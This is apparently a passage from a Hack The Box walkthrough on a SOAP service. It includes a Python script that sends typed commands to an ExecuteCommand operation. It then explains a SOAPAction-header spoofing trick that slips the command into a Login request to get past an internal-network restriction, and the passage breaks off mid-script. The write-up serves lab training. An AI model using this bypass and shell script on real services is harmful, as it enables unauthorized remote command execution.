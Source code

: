 ```xml


	<wsdl:service name="HacktheboxService">
		<wsdl:port name="HacktheboxServiceSoapPort" binding="tns:HacktheboxServiceSoapBinding">
			<soap:address location="http://localhost:80/wsdl"/>
		</wsdl:port>
	</wsdl:service>
</wsdl:definitions>
```
- in the above service we have SOAPAction operation called `ExecuteCommand`
- if we use this script to send soap request to `ExecuteCommand`
```python
import requests 


url = "http://10.129.255.79:3002/wsdl"

while True :
    cmd = input("$ ")
    payload = f"""<soap:Envelope
    xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xmlns:tns="http://tempuri.org/"
    xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
    <soap:Body>
        <ExecuteCommandRequest xmlns="http://tempuri.org/">
            <cmd>{cmd}</cmd>
        </ExecuteCommandRequest>
    </soap:Body>
</soap:Envelope>"""
    res = requests.post(url=url , data=payload , headers={"SOAPAction":'"ExecuteCommand"'} )
    print(res.text)
```
- response 
```shell
python3 shell.py

$ whoami
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandResponse xmlns="http://tempuri.org/"><success>false</success><error>This function is only allowed in internal networks</error></ExecuteCommandResponse></soap:Body></soap:Envelope>
```

- using operation `ExecuteCommand` return an error  `This function is only allowed in internal networks`
- so we can use another operation in the service that is allowed outside internal network but the `SOAPAction` Header will be set to `ExecuteCommand`
- lets use `Login` operation , put `LoginRequest` element in the body but with `cmd` parameter 
```python
import requests 


url = "http://10.129.255.79:3002/wsdl"

while True :
    cmd = input("$ ")
    payload = f"""<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:tns="http://tempuri.org/"
    xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
    <soap:Body>
        <LoginRequest xmlns="http://tempuri.org/">
```